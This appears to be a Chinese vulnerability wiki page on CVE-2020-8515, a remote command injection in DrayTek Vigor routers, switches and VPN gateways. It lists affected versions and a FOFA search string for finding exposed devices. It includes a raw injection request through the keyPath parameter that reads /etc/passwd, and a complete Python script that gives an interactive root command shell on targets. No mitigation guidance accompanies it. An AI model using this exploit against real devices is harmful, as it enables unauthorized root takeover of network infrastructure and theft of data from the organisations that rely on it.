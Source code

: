 # DrayTek企业网络设备 远程命令执行 CVE-2020-8515

## 漏洞描述

DrayTek URI未能正确处理SHELL字符，远程攻击者可以利用该漏洞提交特殊的请求，可以ROOT权限执行任意命令。

远程命令注入漏洞被标记为CVE-2020-8515，主要影响了DrayTek Vigor网络设备，包括企业交换机、路由器、负载均衡器和VPN网关。

## 漏洞影响

> [!NOTE]
>
> Vigor2960 < v1.5.1
>
> Vigor300B < v1.5.1
>
> Vigor3900 < v1.5.1
>
> VigorSwitch20P2121 <= v2.3.2
>
> VigorSwitch20G1280 <= v2.3.2
>
> VigorSwitch20P1280 <= v2.3.2
>
> VigorSwitch20G2280 <= v2.3.2
>
> VigorSwitch20P2280 <= v2.3.2

## FOFA

> [!NOTE]
>
> title="Vigor 2960"

## 漏洞复现

登录页面抓包

![](image/Dray-1.png)

请求包如下

```
POST /cgi-bin/mainfunction.cgi HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
Content-Length: 67
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.182 Safari/537.36
Content-Type: text/plain; charset=UTF-8
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6

action=login&keyPath=%27%0A%2fbin%2fls%0A%27&loginUser=a&loginPwd=a
```

![](image/Dray-2.png)

其中出现注入点的参数为 **keyPath**

> [!NOTE]
>
> 出现空格需要替换，例如 cat /etc/passwd --> cat${IFS}/etc/passwd
>
> 可以使用 & 执行额外一条命令 (URL编码为 %26)

![](image/Dray-3.png)

## 漏洞利用POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: DrayTek企业网络设备                                        \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCmd         >>> pwd                                                \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/cgi-bin/mainfunction.cgi"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    data = "action=login&keyPath=%27%0A%2fbin%2fcat${IFS}/etc/passwd%0A%27&loginUser=a&loginPwd=a"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/cgi-bin/mainfunction.cgi \033[0m".format(target_url))
        if "root" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                Cmd = input("\033[35mCmd >>> \033[0m")
                if Cmd == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, Cmd)
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)
        sys.exit(0)

def POC_2(target_url, Cmd):
    vuln_url = target_url + "/cgi-bin/mainfunction.cgi"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    Cmd = Cmd.replace(' ','${IFS}')
    data = "action=login&keyPath=%27%0A%2fbin%2f%26{}%0A%27&loginUser=a&loginPwd=a".format(Cmd)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if response.status_code == 200:
            print("\033[32m[o] 正在请求 {}/cgi-bin/mainfunction.cgi \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)

```

![](image/Dray-4.png)

## Goby & POC

> [!NOTE]
>
> Goby中已经包含此漏洞

![](image/Dray-5.png)